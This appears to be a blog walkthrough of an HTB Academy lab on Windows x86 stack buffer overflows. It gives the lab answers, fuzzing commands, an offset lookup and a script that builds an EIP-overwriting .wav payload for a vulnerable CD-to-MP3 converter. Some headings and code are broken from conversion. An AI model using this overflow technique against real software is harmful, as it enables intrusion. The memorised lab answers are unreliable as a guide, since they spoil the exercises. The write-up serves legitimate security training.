Welcome to **Part 36** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Stack-Based Buffer Overflows on Windows x86** (Tier II • Medium • Offensive). We break down the underlying mechanics of x86 Windows binary exploitation, Immunity Debugger, Mona.py, EIP redirection, bad character filtering, finding JMP ESP in non-protected modules, and shellcode execution, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-35-stack-based-buffer-overflows-on-linux-x86/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 35: Stack-Based Buffer Overflows on Linux x86</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 36 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-37-attacking-wifi-protected-setup-wps/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 37: Attacking Wi-Fi Protected Setup (WPS) & WPA2</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Stack-Based Buffer Overflows on Windows x86` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/32](https://academy.hackthebox.com/module/32) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 36 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Debugger Operations**: Utilizes Immunity Debugger and `mona.py` to inspect memory, register states, and module protection mitigations.
* **EIP Overwrite Pinpointing**: Determines exact buffer length and offset to control the Windows `EIP` register.
* **Bad Character Filtering**: Employs `mona bytearray` and memory comparison to detect and eliminate bad characters.
* **Reliable Pointer Selection**: Searches executable modules for reliable `JMP ESP` instructions that lack SafeSEH, ASLR, and DEP protections.
* **MSFvenom Shellcode Generation**: Generates encoded Windows reverse shell payloads that avoid bad characters and fit within available buffer space.

## Executive Summary & Assessment Scope

Exploiting memory corruption flaws on Windows x86 requires structured debugging tradecraft and an understanding of operating system binary protections. Overwriting the instruction pointer grants full execution control over the application.

This module delivers a step-by-step technical guide to Windows x86 stack overflow exploitation. We use Immunity Debugger and Mona.py to analyze memory, find reliable `JMP ESP` instructions, generate encoded reverse shell payloads, and solve every lab flag.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Stack-Based Buffer Overflows on Windows x86

#### Technical Methodology & Exploit Execution:

```bash
xfreerdp /v:<target-IP> /u:htb-student /p:Academy_student!
```
/dynamic-resolution
and will be reffered as 'RDP login to the target machine'.


### Debugging Windows Programs

> **Lab Question (Page 2)**: Try to RDP into the Windows VM using one of the methods mentioned above, and apply what you learned in this module. When you try to attach to 'Free CD to MP3 Converter', what is the name of its process?
>
> **Flag / Answer**: `cdextract`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target machine:

We have the debugger program x32dgb, lets open it:

We go to file→ open:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### Lets open File → Attach

And select the 'Free CD to MP3 Converter', from the Desktop:

→

Now we see the debugging data of the process.

Lets open File → Attach:

Here we can see the name of the process – 'cdextract'.


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


### Fuzzing Parameters

> **Lab Question (Page 4)**: Try to fuzz the program with '.wav' files of increments of 1000 bytes '1000, 2000, 3000...', and find the smallest payload size that crashes the program and overwrites EIP with '41414141'.
>
> **Flag / Answer**: `5000`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will use powershell which creates a file 'fuzz.wav', and in it –
5000 times the character A. we will create it at the user's desktop:
```bash
python -c "print('A'*5000, file=open('fuzz.wav', 'w'))"
```


Now lets open the 'Free CD to MP3 Converter' with the debugger, and we
select 'Encode':


And we proceed to encode the created 'fuzz' file:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### Now

Now:

We can see at the bottom line, exception at '41414141', meaning 'AAAA' (0x41
is the ASCII of 'A')

In the 'Hide FPU window – we can see the register EIP (the instruction register
is 41414141).
Meaning payload of the size 5000 bytes overwritten the EIP register.

We will still need the show that 5000 is the lowest value divisible by 1000 (we
are instructed to test for increments of 1000) that overwrite the EIP register, so
we run the same process for 'buzz.wav' of size 4000 (the process will not be re-
shown):

As we can see – for payload of size 4000, the EIP register value was not
overwritten by 'A's.
Which makes 5000 bytes the smallest value (divisible by 1000) that overruns
the EIP register.


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### Controlling EIP

> **Lab Question (Page 6)**: If you find the value 'B5eB' in EIP after sending your pattern, what would be the EIP offset?
>
> **Flag / Answer**: `915`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets encode the string 'B5eB' using ASCII:
B – 0x42, 5 – 0x35, e – 0x65.
So the ASCII encoded 'B5eB' will be 0x42356542.
Now, We take the EIP value, and with the tool 'pattern_offset.rb' – located in
'/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb' in the
pwnbox – we can use it with determine the offset of the EIP , meaning the bytes
in total that must be sent before reaching EIP:
usr/share/metasploit-
framework/tools/exploit/pattern_offset.rb -q 0x42356542


Identifying Bad Characters:
Question: Try to repeat what you learned in this section to identify all bad
characters for our program. What is the total number of bad characters you
identified? "Note: the result may differ from what was shown in this section"
Answer: 0
Method: First we will have to prepare the payload file – 'chars.wav', which will
server as input to the 'CD to MP3 converter'.
For that we will first confirm python is installed on the target machine:
```bash
python --version
```


Now, we will use the pre-installed python IDE to run the following script:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### def bad_chars()

def bad_chars():
all_chars = bytes([
0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
])
offset = 4112
buffer = b"A" * offset
eip = b"B" * 4
payload = buffer + eip + all_chars

with open('chars.wav', 'wb') as f:
f.write(payload)

bad_chars()


### intervals of 1000)

the script, provided for us by the section's guide (I added the whole list of
characters), snipped by the section's guide itself – confirms to us that the exact
offet to EIP register is 4112 (we have only discovered the approximate offset by
intervals of 1000):


And we run it, to create a file 'chars.wav' (we run the script in the desktop):


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### It will generate us list of bytes array

#### Technical Methodology & Exploit Execution:

ERC --bytearray


It will generate us list of bytes array:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


### to be used in the characters comparasion

It will create us the files 'ByteArray_1.txt' and 'ByteArray_1.bin' in the desktop,
to be used in the characters comparasion:


Now, we will encode the converter with chars.wav:


And back to the CPU window in the debugger, in the 'Hide FPU' window – we
will take the value of 'ESP' register (the stack pointer register):

Its '0014F974'.


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### And back to the logs commands, we run the command

#### Technical Methodology & Exploit Execution:

ERC --compare 0014F974 C:\Users\htb-
student\Desktop\ByteArray_1.bin
To compare the stack with the bin file for comparasion:


There are no characters missing, which makes the number of bad characters: 0.

